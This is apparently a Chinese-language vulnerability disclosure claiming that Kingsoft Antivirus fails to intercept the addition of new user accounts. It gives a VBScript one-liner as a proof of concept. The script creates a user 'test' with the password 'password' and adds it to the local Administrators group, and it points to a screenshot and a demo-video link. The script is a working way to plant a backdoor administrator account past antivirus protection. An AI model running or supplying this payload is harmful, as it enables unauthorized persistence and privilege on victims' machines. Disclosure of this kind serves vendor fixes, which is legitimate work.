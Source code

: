```yaml
---
title: Bypass金山毒霸
id: zhfly3457
---
```


# 金山毒霸添加用拦截功能绕过

# 相关厂商

金山毒霸

# 漏洞类型

拦截绕过

# 自评危害等级

高危

# 详细介绍：

金山毒霸添加用拦截功能绕过

POC如下：

```
set wsnetwork=CreateObject("WSCRIPT.NETWORK"):os="WinNT://"&wsnetwork.ComputerName:Set ob=GetObject(os):Set oe=GetObject(os&"/Administrators,group"):Set od=ob.Create("user","test"):od.SetPassword "password":od.SetInfo:Set of=GetObject(os&"/test",user):oe.add os&"/test" 
```

![image](../img/3dda38be07fd0b4b1b6f13482d14390b.png)

测试视频演示下载地址：https://pan.baidu.com/s/1YsRrLVeALZH0vudbCn6WPQ 0sec
链接如挂，请群内反馈,谢谢
